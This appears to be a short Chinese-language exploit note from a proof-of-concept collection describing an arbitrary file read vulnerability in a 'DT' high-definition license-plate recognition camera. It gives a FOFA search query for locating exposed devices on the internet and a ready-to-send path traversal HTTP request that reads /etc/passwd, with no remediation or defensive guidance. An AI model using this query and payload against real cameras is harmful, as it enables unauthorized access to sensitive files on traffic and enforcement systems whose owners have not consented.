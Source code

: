 ## DT高清车牌识别摄像机存在任意文件读取漏洞

DT高清车牌识别摄像机是一种高科技产品，主要用于抓拍和识别车牌信息，用于交通管理、违章抓拍、电子收费等目的。DT-高清车牌识别摄像机存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件。

## fofa

```
app="DT-高清车牌识别摄像机"
```
![image](https://github.com/user-attachments/assets/8afe600e-c050-4343-972e-aa986356a137)

## poc

```
GET /../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```


